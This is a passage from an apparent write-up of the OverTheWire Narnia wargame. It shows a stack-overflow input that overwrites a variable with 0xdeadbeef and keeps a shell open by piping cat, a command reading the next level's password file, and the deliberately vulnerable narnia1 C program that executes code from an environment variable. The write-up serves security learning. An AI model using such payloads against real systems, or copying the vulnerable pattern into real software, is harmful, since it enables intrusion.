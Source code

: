   `val` has successfully changed into `0xdeadbeef` but bash not established or working because the input stream closed.
  
<img src="img/Pasted image 20240716223157.png" alt="Example Image" width="400"/>

`cat` command has a continuous input stream so pipe this with that executable file

```
(printf "BBBBBBBBBBBBBBBBBBBB\xef\xbe\xad\xde";cat) | ./narnia0 
```

<img src="img/Pasted image 20240716223326.png" alt="Example Image" width="1080"/>

```
cat /etc/narnia_pass/narnia1
```

---

**Narnia1**

```
narnia1@gibson:~$ cd /narnia/
narnia1@gibson:/narnia$ cat narnia1.c
```

```c
#include <stdio.h>

int main(){
    int (*ret)();

    if(getenv("EGG")==NULL){
        printf("Give me something to execute at the env-variable EGG\n");
        exit(1);
    }

    printf("Trying to execute EGG!\n");
    ret = getenv("EGG");
    ret();

    return 0;
}
```
